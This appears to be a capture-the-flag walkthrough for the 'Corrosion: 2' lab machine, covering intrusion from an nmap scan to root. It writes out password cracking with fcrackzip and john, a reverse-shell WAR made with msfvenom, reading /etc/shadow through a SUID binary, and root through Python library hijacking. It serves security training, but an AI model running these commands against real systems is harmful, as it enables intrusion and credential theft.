










# Corrosion: 2

### Nmap Scan

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxEaMV/cOFTyD2I2ITIKwQ4b/bNPssxteT2yDAFcUeWUEMen6sr0RS9Wa7pk0ywsbDR/nTrbvSXCVumjaF2UG1nf5d0iu7RgSOWmtWNllMCmH8fUqBXoSVTsR6

80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET

8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.53
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

---

### First look of website.



### Hidden Directory

```bash
## Most IMP 
/backup.zip -> password protected 

/docs
/examples
/manager 
```

- Download the zip file from `/backup.zip`
- The zip file is password protected.

---

### Crack backup.zip Password

```bash
fcrackzip -u backup.zip -D -p /usr/share/wordlists/rockyou.txt -v
```

- Successfully crack the password.
    
    > **Cracked Password** = @administrator_hi5
    > 

---

### Inside website

- After unzip the backup file we get credentials from → `tomcat-users.xml`
- `/manager` is a directory appears to be interesting.

> **username = admin**
> 

> **password = melehifokivai**
> 
- It looks like we can upload the .war file to get a reverse-shell.



---

# Multiple Methods to get a **reverse-shell**

1. Use msfvenom to get a revershell 
- Upload this `rev.war` file
- Go to → http://IP:8080/rev/



```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_IP> LPORT=1337 -f war -o rev.war
```

---

1. Use Metasploit → `multi/http/tomcat_mgr_upload`

```bash
set RHOST
set RPORT
## Optional  
set HttpPassword melehifokivai 
## Optional  
set HttpUsername admin  
```

---

### SSH Login

- we have 3 users
- we can check if any password is reuse.
- and it work `jaye` has a reuse password.

```
jaye:melehifokivai
randy
tomcat 
```



---

### Privilege Escalation

- we can use `linpeas` also
- But first we try manual testing
- This is use for search for all files on the system that have the SUID (Set User ID) permission set.

```bash
## search for all files on the system that have the SUID (Set User ID) permission set.
find / -perm -4000 2>/dev/null 
```

- After running this command we see something unusual.


- `/home/jaye/Files/look` → Try GTFOBins



- Payload

```bash
## File Read
LFILE=/etc/shadow
./look '' $LFILE
```



- username & password  → /etc/shadow

```bash
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
```

- Save this file and use john to crack there passwords.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

> **Cracked Password = 07051986randy**
> 
> 
> **Username = randy**
> 

---

### Login As randy

```bash
ssh randy@IP
```



- user → randy can run python script with privileges.



- we can edit the python script and inject a cmd to spawn a root shell.
    - edit `/usr/lib/python3.8/base64.py`



```python
import os

os.system("/bin/bash")
```

- save this
- when we run `randombase64.py` python script, which triggers our `base64.py` and give us a root shell.



```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py 
```